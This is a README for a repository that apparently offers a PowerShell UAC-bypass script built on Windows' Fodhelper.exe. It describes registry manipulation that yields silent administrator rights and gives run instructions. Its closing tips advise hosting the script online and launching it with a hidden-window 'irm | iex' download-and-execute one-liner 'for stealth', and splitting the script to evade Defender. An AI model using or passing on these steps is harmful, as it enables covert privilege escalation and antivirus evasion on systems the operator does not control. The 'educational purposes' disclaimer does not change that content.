 # Fodhelper UAC Bypass Implementation

## Overview
This repository contains a PowerShell script that demonstrates a UAC (User Account Control) bypass using **Fodhelper.exe**, a trusted binary in Windows operating systems. By exploiting a feature of Fodhelper.exe, we can elevate privileges without triggering the typical UAC prompt, allowing for seamless execution of elevated commands.

### What is Fodhelper.exe?
**Fodhelper.exe** is a trusted system binary found in Windows operating systems. By default, this executable has administrative privileges and is considered a "trusted binary" in Windows. As a result, **Fodhelper.exe** can be leveraged to gain administrative rights without triggering the standard UAC prompt that usually appears when attempting to run applications as an administrator.

In simpler terms, when running an application that requires administrative privileges, Windows typically prompts the user to confirm the action (UAC prompt). However, **Fodhelper.exe** bypasses this step, allowing for elevated privileges without user intervention. This behavior is a Windows-specific feature that can be exploited through registry manipulation to stealthily execute commands with administrative rights.

### How Does it Work?
The process involves manipulating registry entries related to **Fodhelper.exe** to invoke the binary with elevated privileges. Once triggered, **Fodhelper.exe** will execute the designated commands, such as running PowerShell scripts, with administrator rights.

This technique allows for the execution of commands or scripts that would typically require UAC confirmation, bypassing the prompt altogether. It can be used for automation or stealthy privilege escalation purposes.

### Stripped-Down Script
This repository provides a **stripped-down version of the PowerShell script** that showcases the basic functionality of the Fodhelper UAC bypass technique. The script is simplified to demonstrate that the method works, and you can modify it as needed to suit your purposes. **Please note**: This tool is intended for educational purposes only and should be used responsibly.

### Legal Disclaimer
This script and method are shared for educational purposes only. Misuse of this information, including unauthorized access to systems or data, is illegal and unethical. Always obtain proper authorization before attempting to use this technique in any environment. The author of this repository assumes no responsibility for any consequences arising from the use of this tool.

---

## Usage

### Tested on Windows 10

### Prerequisites
- A Windows operating system with UAC enabled (the method works by exploiting **Fodhelper.exe**'s behavior in these environments).
- PowerShell is required for executing the script.

### Running the Script
1. Download or clone the repository.
2. Open a PowerShell session with out administrative privileges.
3. Navigate to the directory where the script is located.
4. Execute the PowerShell script using the following command:
   ```powershell
   .\uacGit.ps1

### Tips:
1. Host your modified script online.
2. Utilize Run Dialague Box (Win + R) to execute powershell -C "irm 'LinkToThisScript' | iex" and the "-WindowStyle Hidden" flag for stealth
3. Split the script if Defender is triggered.


